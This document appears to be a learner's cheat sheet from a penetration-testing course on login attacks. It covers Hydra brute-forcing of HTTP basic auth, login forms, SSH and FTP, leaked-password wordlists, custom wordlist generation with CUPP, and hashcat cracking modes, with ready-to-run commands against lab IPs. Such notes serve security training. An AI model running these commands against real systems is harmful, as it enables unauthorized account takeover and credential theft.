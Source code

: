 Login Attacks
======

Hydra
------
To install Hydra use command 'apt install hydra -y' or download from its Github Repository 'git clone https://github.com/vanhauser-thc/thc-hydra'

password wordlists /opt/useful/SecLists/Passwords/
username wordlists /opt/useful/SecLists/Usernames/
https://github.com/danielmiessler/SecLists
t commonly used password wordlists is rockyou.txt, which has over 14 million unique passwords, sorted by how common they are, https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
/opt/useful/SecLists/Passwords/Default-Credentials
 ftp-betterdefaultpasslist.txt

Options	Description
-C ftp-betterdefaultpasslist.txt	Combined Credentials Wordlist
SERVER_IP	Target IP
-s PORT	Target Port
http-get	Request Method
/	Target Path

------Basic HTTP Auth Brute Forcing------
hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 46.101.20.243 -s 32221 http-get /


locate names.txt

hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /

static pw
hydra -L /opt/useful/SecLists/Usernames/Names/usernames.txt -p amormio -u -f 178.35.49.134 -s 32901 http-get /

 hydra -h | grep "Supported services" | tr ":" "\n" | tr " " "\n" | column -e

---Brute Forcing Forms----

Determine Login Parameters
We can easily find POST parameters if we intercept the login request with Burp Suite or take a closer look at the admin panel's source code.

Using Browser
One of the easiest ways to capture a form's parameters is through using a browser's built in developer tools. For example, we can open firefox within PwnBox, and then bring up the Network Tools with [CTRL + SHIFT + E].

Once we do, we can simply try to login with any credentials (test:test) to run the form, after which the Network Tools would show the sent HTTP requests. Once we have the request, we can simply right-click on one of them, and select Copy > Copy POST data:

Another option would be to used Copy > Copy as cURL, which would copy the entire cURL command, which we can use in the Terminal to repeat the same HTTP request:


curl 'http://178.128.40.63:31554/login.php' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://178.128.40.63:31554' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Referer: http://178.128.40.63:31554/login.php' -H 'Cookie: PHPSESSID=8iafr4t6c3s2nhkaj63df43v05' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' --data-raw 'username=test&password=test'


hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"

hydra -l user -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -f 46.101.20.243 -s 32221 http-post-form "/admin_login.php:username=^USER^&password=^PASS^:F=<form name='login'"

curl 'http://46.101.20.243:32221/admin_login.php' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://46.101.20.243:32221' -H 'DNT: 1' -H 'Authorization: Basic dXNlcjpwYXNzd29yZA==' -H 'Connection: keep-alive' -H 'Referer: http://46.101.20.243:32221/admin_login.php' -H 'Cookie: PHPSESSID=hd495gtp1gu278ifim02kahvom' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' --data-raw 'user=&pass='
Have to find verriables of USERNAME/PASSWORD , form name, ip and port, login page. 


SSH Attack
hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4
netstat -antp | grep -i list
hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1
ftp 127.0.0.1


CUPP
sudo apt install cupp or clone it from the Github repository
https://github.com/Mebus/cupp
cupp -i
sed -ri '/^.{,7}$/d' william.txt            # remove shorter than 8
sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt # remove no special chars
sed -ri '/[0-9]+/!d' william.txt            # remove no numbers


Custom Username Wordlist
git clone https://github.com/21y4d/usernameGenerator.git
bash usernameGenerator/usernameGenerator.sh 
bash usernameGenerator/usernameGenerator.sh Bill Gates

Hydra
Command	Description
hydra -h	hydra help
hydra -C wordlist.txt SERVER_IP -s PORT http-get /	Basic Auth Brute Force - Combined Wordlist
hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /	Basic Auth Brute Force - User/Pass Wordlists
hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"	Login Form Brute Force - Static User, Pass Wordlist
hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4	SSH Brute Force - User/Pass Wordlists
hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1	FTP Brute Force - Static User, Pass Wordlist
Wordlists
Command	Description
/opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt	Default Passwords Wordlist
/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt	Common Passwords Wordlist
/opt/useful/SecLists/Usernames/Names/names.txt	Common Names Wordlist
Misc
Command	Description
cupp -i	Creating Custom Password Wordlist
sed -ri '/^.{,7}$/d' william.txt	Remove Passwords Shorter Than 8
sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt	Remove Passwords With No Special Chars
sed -ri '/[0-9]+/!d' william.txt	Remove Passwords With No Numbers
git clone https://github.com/21y4d/usernameGenerator.git	Download usernameGenerator
bash usernameGenerator/usernameGenerator.sh <First Name> <Last Name>	usernameGenerator Usage
ssh b.gates@SERVER_IP -p PORT	SSH to Server
ftp 127.0.0.1	FTP to Server
su - user	Switch to User

Encryption

Generate an MD5 hash
echo -n "p@ssw0rd" | md5sum

Create the XOR ciphertext
python3
from pwn import xor 
xor("p@ssw0rd", "secret")

 pip install hashid	Install the hashid tool
sudo apt install hashcat or get from Git https://github.com/hashcat/hashcat

hashid '$DCC2$10240#tom#e4e938d12fe5974dc42a90120bd9c90f' -m

 hash types and their corresponding examples can be found here
https://hashcat.net/wiki/doku.php?id=example_hashes


CRACKING PASSWORDS WITH HASHCAT
cheat sheet
Command	Description
 pip install hashid	Install the hashid tool
hashid <hash> OR hashid <hashes.txt>	Identify a hash with the hashid tool
hashcat --example-hashes	View a list of Hashcat hash modes and example hashes
hashcat -b -m <hash mode>	Perform a Hashcat benchmark test of a specific hash mode
hashcat -b	Perform a benchmark of all hash modes
hashcat -O	Optimization: Increase speed but limit potential password length
hashcat -w 3	Optimization: Use when Hashcat is the only thing running, use 1 if running hashcat on your desktop. Default is 2
hashcat -a 0 -m <hash type> <hash file> <wordlist>	Dictionary attack
hashcat -a 1 -m <hash type> <hash file> <wordlist1> <wordlist2>	Combination attack
hashcat -a 3 -m 0 <hash file> -1 01 'ILFREIGHT?l?l?l?l?l20?1?d'	Sample Mask attack
hashcat -a 7 -m 0 <hash file> -1=01 '20?1?d' rockyou.txt	Sample Hybrid attack
crunch <minimum length> <maximum length> <charset> -t <pattern> -o <output file>	Make a wordlist with Crunch
python3 cupp.py -i	Use CUPP interactive mode
kwp -s 1 basechars/full.base keymaps/en-us.keymap routes/2-to-10-max-3-direction-changes.route	Kwprocessor example
cewl -d <depth to spider> -m <minimum word length> -w <output wordlist> <url of website>	Sample CeWL command
hashcat -a 0 -m 100 hash rockyou.txt -r rule.txt	Sample Hashcat rule syntax
./cap2hccapx.bin input.cap output.hccapx	cap2hccapx syntax
hcxpcaptool -z pmkidhash_corp cracking_pmkid.cap	hcxpcaptoolsyntax
